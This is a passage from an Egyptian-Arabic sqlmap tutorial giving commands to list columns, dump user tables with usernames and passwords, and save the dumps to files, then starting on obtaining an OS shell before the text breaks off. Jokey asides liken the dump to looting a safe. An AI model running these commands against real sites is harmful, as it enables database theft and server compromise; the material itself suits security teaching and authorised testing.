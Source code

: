 - **سحب الأعمدة من جدول:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users --columns
  ```
  هيجيب: `id, username, password`.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "روح هاتلي كشف حساب البيت كله"، يرجعلك بيقول "في أوضة اسمها testdb، وفيها دولاب اسمه users، وجواه يوزر نيم وباسوورد!"

---

### **3. سحب البيانات (Dumping)**
#### **إيه هو؟**
sqlmap بيقدر يسحب كل البيانات من جدول معين (زي يوزر نيم وباسوورد) ويحفظهالك.

#### **ازاي بيشتغل؟**
بتستخدم `--dump` عشان تسحب كل حاجة أو تحدد عمود معين.

#### **مثال عملي:**
- **سحب كل البيانات من جدول:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users --dump
  ```
  هيرجعلك حاجة زي:
  ```
  id | username | password
  1  | admin    | 12345
  2  | user1    | pass123
  ```

- **سحب عمود معين:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users -C username,password --dump
  ```
  هيجيب الـ `username` و `password` بس.

- **حفظ البيانات في ملف:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users --dump --output-dir=/home/user/dump
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "روح هاتلي كل الفلوس من الخزنة"، يرجعلك بكشف كده "الأولاني admin ومعاه 12345، والتاني user1 ومعاه pass123"، كده الكنز بقى في جيبك!

---

### **4. تنفيذ أوامر على السيرفر**
#### **إيه هو؟**
لو الداتابيز عندها صلاحيات كافية، sqlmap بيقدر يديك شيل (Shell) تتحكم في السيرفر من خلاله.

#### **ازاي بيشتغل؟**
بتستخدم `--os-shell` أو `--file-write` عشان تكتب ملفات أو تنفذ أوامر.
